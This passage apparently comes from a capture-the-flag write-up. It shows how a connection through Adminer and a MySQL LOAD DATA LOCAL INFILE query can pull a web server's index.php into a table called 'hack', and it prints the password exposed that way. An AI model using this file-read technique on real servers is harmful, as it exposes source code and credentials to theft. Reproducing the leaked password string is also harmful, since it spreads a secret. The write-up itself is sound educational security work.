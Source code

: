 Now that we're connected, we need to create a table with a column to dump the index.php file using the ```LOAD DATA LOCAL INFILE```statement, which allows you to import data from a file into a database.

```sql
CREATE TABLE hack (
    dump varchar(255)
);
LOAD DATA LOCAL INFILE "/var/www/html/index.php"
INTO TABLE hack
```

![adminer_command](images/adminer_command.png)

And then by navigating to the hack table, we can see a password that has been dumped:           
`&<h5b~yK3F#{PaPB&dA}{H>`

![dump](images/dump.png)
